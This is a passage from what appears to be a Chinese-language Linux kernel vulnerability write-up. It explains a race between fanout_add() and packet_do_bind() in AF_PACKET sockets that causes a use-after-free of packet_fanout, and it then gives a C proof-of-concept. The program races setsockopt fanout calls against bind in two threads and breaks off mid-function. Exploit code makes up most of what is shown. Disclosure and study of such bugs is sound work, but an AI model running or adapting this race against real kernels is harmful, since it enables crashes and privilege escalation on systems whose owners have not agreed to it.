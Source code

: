 即使已经从fanout_add()创建了一个packet_fanout，竞争也会导致来自packet_do_bind()的__unregister_prot_hook()将po-> running设置为0。

这允许我们绕过packet_release()中的unregister_prot_hook()的检查，从而导致即使packet_fanout已经被释放，但是仍然可以从packet_type链接列表引用。

## 漏洞证明
```
// Please note, to have KASAN report the UAF, you need to enable it when compiling the kernel.
// the kernel config is provided too.

#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/ioctl.h>
#include <net/if.h>
#include <pthread.h>
#include <sys/utsname.h>
#include <sched.h>
#include <stdarg.h>
#include <stdbool.h>
#include <sys/stat.h>
#include <fcntl.h>

#define IS_ERR(c, s) { if (c) perror(s); }

struct sockaddr_ll {
	unsigned short	sll_family;
	short		sll_protocol; // big endian
	int		sll_ifindex;
	unsigned short	sll_hatype;
	unsigned char	sll_pkttype;
	unsigned char	sll_halen;
	unsigned char	sll_addr[8];
};

static int fd;
static struct ifreq ifr;
static struct sockaddr_ll addr;

void *task1(void *unused)
{	
	int fanout_val = 0x3;

	// need race: check on po->running
	// also must be 1st or link wont register
	int err = setsockopt(fd, 0x107, 18, &fanout_val, sizeof(fanout_val));
	// IS_ERR(err == -1, "setsockopt");	
}

void *task2(void *unused)
{
	int err = bind(fd, (struct sockaddr *)&addr, sizeof(addr));
	// IS_ERR(err == -1, "bind");
}

void loop_race()
{
	int err, index;
```